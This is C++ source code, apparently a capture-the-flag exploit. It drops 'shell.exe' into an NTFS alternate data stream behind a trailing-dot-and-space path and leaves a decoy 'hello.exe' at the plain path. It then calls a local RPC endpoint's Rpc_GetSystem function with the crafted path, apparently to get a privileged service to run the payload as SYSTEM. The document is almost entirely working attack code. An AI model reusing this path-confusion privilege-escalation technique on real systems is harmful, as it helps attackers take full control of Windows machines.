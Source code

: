 ```c++
#include <stdio.h>
#include <Windows.h>
#include <winternl.h>

#include "rpc_h.h"

#pragma comment(lib, "RpcRT4.lib")

int wmain(int argc, wchar_t* argv[])
{
	RPC_STATUS RpcStatus;
	RPC_WSTR StringBinding;
	RPC_BINDING_HANDLE hBinding;

	wprintf(L"[*] Copy hello.exe to C:\\Windows\\Temp\\shell\n");
	CopyFileW(L".\\hello.exe", L"C:\\Windows\\Temp\\shell", 0);
	wprintf(L"[*] Copy shell.exe to C:\\Windows\\Temp\\shell. .\n");
	CopyFileW(L".\\shell.exe", L"C:\\Windows\\Temp\\shell. .::$DATA", 0);

	RpcStatus = RpcStringBindingComposeW(
		NULL, 
		(RPC_WSTR)L"ncalrpc", 
		(RPC_WSTR)L"", 
		(RPC_WSTR)L"qwb", 
		NULL, 
		&StringBinding
	);
	if (RpcStatus != RPC_S_OK) {
		wprintf(L"[-] RpcStringBindingComposeW() Error: [%u]\n", GetLastError());
		return 0;
	}

	RpcStatus = RpcBindingFromStringBindingW(
		StringBinding,
		&hBinding
	);
	if (RpcStatus != RPC_S_OK) {
		wprintf(L"[-] RpcBindingFromStringBindingW() Error: [%u]\n", GetLastError());
		return 0;
	}

	RpcStatus = RpcStringFree(
		&StringBinding
	);
	if (RpcStatus != RPC_S_OK) {
		wprintf(L"[-] RpcStringFreeW() Error: [%u]\n", GetLastError());
		return 0;
	}

	RpcTryExcept
	{
		BSTR bShellPath = SysAllocString(L"\\??\\C:\\Windows\\Temp\\shell. .");
		Rpc_GetSystem(hBinding, &bShellPath);
		wprintf(L"[*] NtCreateUserProcess Triggered!");
	}
	RpcExcept(EXCEPTION_EXECUTE_HANDLER);
	{
		wprintf(L"[-] Error: %d\r\n", RpcExceptionCode());
	}
	RpcEndExcept
	{
		RpcBindingFree(&hBinding);
	}
```